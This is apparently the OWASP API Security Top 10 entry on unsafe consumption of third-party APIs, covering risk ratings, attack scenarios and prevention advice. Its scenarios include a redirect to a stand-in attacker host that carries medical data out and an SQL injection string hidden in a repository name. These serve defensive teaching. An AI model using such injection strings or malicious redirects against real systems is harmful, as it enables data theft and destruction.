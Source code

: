 API10:2023 Unsafe Consumption of APIs
=====================================

| Threat agents/Attack vectors | Security Weakness | Impacts |
| - | - | - |
| API Specific : Exploitability **2** | Prevalence **2** : Detectability **1** | Technical **3** : Business Specific |
| Developers tend to trust but not verify in their endpoints which interact with external or third-party APIs. Successful exploitation of security flaws in these APIs can impact those relying on them. | Usually, API integrations rely on weaker security requirements such as those regarding transport security, authentication/authorization, and input validation and sanitization. | Exposure of sensitive information to unauthorized actors and many kinds  of injections are common issues. |

## Is the API Vulnerable?

Developers tend to trust data received from third-party APIs more than user
input. This is especially true for APIs offered by well-known companies.
Because of that, developers tend to adopt weaker security standards, for
instance, in regards to input validation and sanitization.

The API might be vulnerable if:

* Interacts with other APIs over an unencrypted channel;
* Does not properly validate and sanitize data gathered from other APIs prior
  to processing it or passing it to downstream components;
* Blindly follows redirections;
* Does not limit the number of resources available to process third-party
  services responses;
* Does not implement timeouts for interactions with third-party services;

## Example Attack Scenarios

### Scenario #1

An API relies on a third-party service to enrich user provided business
addresses. When an address is supplied to the API by the end user, it is sent
to the third-party service and the returned data is then stored on a local
SQL-enabled database.

Bad actors use the third-party service to store an SQLi payload associated with
a business created by them. Then they go after the vulnerable API providing
specific input that makes it pull their "malicious business" from the
third-party service. The SQLi payload ends up being executed by the database,
exfiltrating data to an attacker's controlled server.

### Scenario #2

An API integrates with a third-party service provider to safely store sensitive
user medical information. Data is sent over a secure connection using an HTTP
request like the one below:

```
POST /user/store_phr_record
{ "genome": "ACTAGTAG__TTGADDAAIICCTT…" }
```

Bad actors found a way to compromise the third-party API and it starts
responding with a 308 Permanent Redirect to requests like the previous one.

```
HTTP/1.1 308 Permanent Redirect
Location: https://attacker.com/
```

Since the API blindly follows the third-party redirects, it will repeat the
exact same request including the user's sensitive data, but this time to the
attacker's server.

### Scenario #3

An attacker can prepare a git repo named `'; drop db;--`.

Now, when an integration from an attacked application is done with the
malicious repo, an injection payload is used on an application that builds an
SQL query believing the repo's name is safe input.

## How To Prevent

* Use Role Based Access Control(RBAC) when validating non-public endpoints
* When evaluating service providers, assess their API security posture.
* Ensure all API interactions happen over a secure communication channel (TLS).
* Always validate and properly sanitize data received from integrated APIs
  before using it.
* Maintain an allowlist of well-known locations integrated APIs may redirect
  yours to: do not blindly follow redirects.


## References

### OWASP

* [Web Service Security Cheat Sheet][1]
* [Injection Flaws][2]
* [Input Validation Cheat Sheet][3]
* [Injection Prevention Cheat Sheet][4]
* [Transport Layer Protection Cheat Sheet][5]
* [Unvalidated Redirects and Forwards Cheat Sheet][6]

### External

* [CWE-20: Improper Input Validation][7]
* [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor][8]
* [CWE-319: Cleartext Transmission of Sensitive Information][9]

[1]: https://cheatsheetseries.owasp.org/cheatsheets/Web_Service_Security_Cheat_Sheet.html
[2]: https://www.owasp.org/index.php/Injection_Flaws
[3]: https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html
[4]: https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html
[5]: https://cheatsheetseries.owasp.org/cheatsheets/Transport_Layer_Protection_Cheat_Sheet.html
[6]: https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html
[7]: https://cwe.mitre.org/data/definitions/20.html
[8]: https://cwe.mitre.org/data/definitions/200.html
[9]: https://cwe.mitre.org/data/definitions/319.html
